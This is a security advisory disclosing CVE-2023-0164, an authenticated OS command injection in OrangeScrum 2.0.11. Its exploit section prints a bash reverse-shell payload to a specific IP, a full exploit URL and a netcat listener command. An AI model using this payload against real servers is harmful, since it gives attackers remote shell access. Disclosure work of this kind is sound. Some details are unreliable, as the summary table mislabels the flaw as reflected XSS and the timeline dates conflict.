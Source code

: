 ```yaml
---
slug: advisories/queen/
title: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
authors: Carlos Bello
writer: cbello
codename: queen
product: OrangeScrum 2.0.11
date: 2023-01-10 12:00 COT
cveid: CVE-2023-0164
severity: 9.9
description: OrangeScrum 2.0.11 - OS Command Injection via projuniqid
keywords: Fluid Attacks, Security, Vulnerabilities, Orangescrum, RCE
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                      |
| --------------------- | ---------------------------------------------------- |
| **Name**              | OrangeScrum 2.0.11 - Reflected XSS via imgName       |
| **Code name**         | [Queen](https://en.wikipedia.org/wiki/Queen_(band))  |
| **Product**           | OrangeScrum                                          |
| **Affected versions** | 2.0.11                                               |
| **State**             | Public                                               |
| **Release Date**      | 2023-01-10                                           |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | -------------------------------------------------------------------------------------------------------|
| **Kind**              | OS Command Injection                                                                                   |
| **Rule**              | [404. OS Command Injection](https://docs.fluidattacks.com/criteria/vulnerabilities/404)                |
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 9.9                                                                                                    |
| **Exploit available** | No                                                                                                     |
| **CVE ID(s)**         | [CVE-2023-0164](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0164)                          |

## Description

OrangeScrum version 2.0.11 allows an authenticated external attacker to
execute arbitrary commands on the server. This is possible because the
application injects an attacker-controlled parameter into a system
function.

## Vulnerability

This vulnerability occurs because the application injects an attacker-controlled
parameter into a system function.

## Exploitation

To exploit this vulnerability, we only need to send the following malicious HTML
code to an application user.

### Exploit

To exploit this vulnerability, we just need to send the malicious command we want
the server to execute through the projuniqid parameter using the `$()` syntax.

```bash
$(bash -i+>& /dev/tcp/67.205.165.158/3000 0>&1)
```

```txt
https://retr02332bughunter.orangescrum.com/log_times/download_pdf_timelog?projuniqid=$(bash+-i+>%26+/dev/tcp/67.205.165.158/3000+0>%261)&usrid=&date=&strddt=&enddt=&dt_format=d/m/y&checkedFields=date,usr_name,task_no,task_title,hours,description,start,end,break,billable
```

Thus, we will only have to execute the command `nc -lvp 3000` on the attacker's malicious
server to receive the reverse shell from the victim server.

## Evidence of exploitation

![vulnerability-code-orangescrum](https://user-images.githubusercontent.com/51862990/211672912-1eb574f6-20bb-475d-8303-f443ba156163.png)

![vulnerability-orangescrum](https://user-images.githubusercontent.com/51862990/211672802-e1fd6b44-1f5a-414f-8f27-5fbba9d40267.png)

![explotation-orangescrum](https://user-images.githubusercontent.com/51862990/211674614-e71238c4-0fe3-4029-bb71-15c35c46e0e2.gif)

![exploit-success-orangescrum](https://user-images.githubusercontent.com/51862990/211672619-a0006c75-3f39-4cfd-9791-af389d8a37f2.png)

## Our security policy

We have reserved the ID CVE-2023-0164 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: OrangeScrum 2.0.11

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://github.com/Orangescrum/orangescrum/>

## Timeline

<time-lapse
  discovered="2023-01-10"
  contacted="2022-01-10"
  replied="2022-01-10"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
